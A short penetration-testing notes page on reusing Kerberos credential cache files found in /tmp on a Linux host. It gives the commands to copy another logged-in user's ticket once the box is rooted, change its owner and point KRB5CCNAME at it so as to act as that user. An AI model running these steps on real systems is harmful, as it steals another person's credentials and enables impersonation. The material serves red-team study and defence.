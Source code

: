 # Credential Cache Files

## Credential Cache Files

* compromise a logged user and use his tickets
*   ccached files :

    &#x20;→ located in /tmp

![](<../../../../../.gitbook/assets/image (218).png>)

### **Copy the ticket**

{% hint style="warning" %}
**Tickets are only readable by his owner. Not an issue if the box is rooted.**
{% endhint %}

```csharp
sudo cp krb5cc_581000500_gC90OC krb5cc_581000500_testme
chown homer_potter."Domain Users" krb5cc_581000500_testme
```

### **Set the ENV variable**

```csharp
kdestroy
export KRB5CCNAME=/tmp/krb5cc_581000500_testme
```

![](<../../../../../.gitbook/assets/image (29).png>)
